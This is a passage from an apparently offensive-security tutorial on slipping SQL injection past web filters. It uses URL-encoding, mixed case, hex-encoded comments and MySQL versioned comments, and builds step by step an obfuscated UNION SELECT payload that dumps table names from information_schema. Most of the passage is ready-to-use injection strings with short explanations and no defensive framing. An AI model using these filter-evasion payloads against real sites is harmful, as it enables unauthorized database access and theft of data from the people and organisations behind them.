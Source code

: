Example:

`%55nion %53elect 1`

### Upper case and lower case

We can also use the method of mixing upper and lower case to see if we can evade some filters.

Example:

`UniOn SeLeCt 1`

### Hex encoded

This is based on encoding the comments method we saw earlier in hex code:

`/%2A%2A/ y %2F**%2F`

Ejemplo:

```
/%2A%2A/union/%2A%2A/select/%2A%2A/1

%2F**%2Funion%2F**%2Fselect%2F**%2F1
```
 
## Create encoded payloads

In this part I would like to give an example of how to create an encoded payload.

First we are going to define the payload that we want to encode:

``` 
union select 1,2,3,concat(table_name),5 from information_schema.tables where table_schema = database()

```

In this case we are using the payload without any coding, but we have more ways to declare the payload, this by changing its syntax and adding other things even without coding, for example:

``` 
union all(select 1,2,3,concat(table_name),5) from information_schema.tables where table_schema = database()

```

To start coding we are going to first use the comments method:


``` 
/*!50000union*//**//*!50000all/*(/*!50000select*//**/1,2,3,/*!50000concat*/(table_name),5)/**//*!50000from*//**//*!50000information_schema.tables*//**//*!50000where*//**//*!50000table_schema*/=database()

```

Now we have it encoded with comments, but we can mix encodings, for example with the URL method:

``` 
/*!50000%75%6e%69on*//**//*!50000all/*(/*!50000%73%65%6cect*//**/1,2,3,/*!50000%63oncat*/(table_name),5)/**//*!50000%66rom*//**//*!50000%69nformation_schema.tables*//**//*!50000wh%65re*//**//*!50000table_schema*/=database()

```
